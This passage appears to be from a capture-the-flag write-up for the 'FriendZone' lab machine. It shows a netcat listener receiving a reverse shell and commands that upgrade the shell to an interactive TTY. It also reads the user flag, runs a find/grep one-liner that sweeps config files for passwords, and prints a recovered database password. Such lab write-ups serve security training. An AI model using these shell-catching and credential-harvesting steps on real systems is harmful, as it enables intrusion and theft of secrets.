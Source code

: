 **Shell Acquired**
```
nc -nlvp 1234

listening on [any] 1234 ...cd /
connect to [10.10.14.46] from (UNKNOWN) [10.10.10.123] 36522
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 04:01:36 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Get User Flag

First we need to stabilize the shell

1. Escape limited shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

2. Give access to `clear` command and more
```
export TERM=xterm
```

3. Then background the shell with CTRL+Z

4. In your terminal, use the command below.
```
stty raw -echo; fg
```

Flag is ==f61334c76f61015bf617a7410732063b==
```
www-data@FriendZone:/$ find /home/friend -name *.txt 2>/dev/null
/home/friend/user.txt
www-data@FriendZone:/$ cat /home/friend/user.txt 
f61334c76f61015bf617a7410732063b
www-data@FriendZone:/$ 

```

### User Password

I used the hint to find the password. However, you can also execute the following to find it
```
find / -name "*.conf" -exec grep -Hi pass {} \; 2>/dev/null
```

Password is located in `/var/www/mysql_data.conf`
```
Agpyu12!0.213$
```
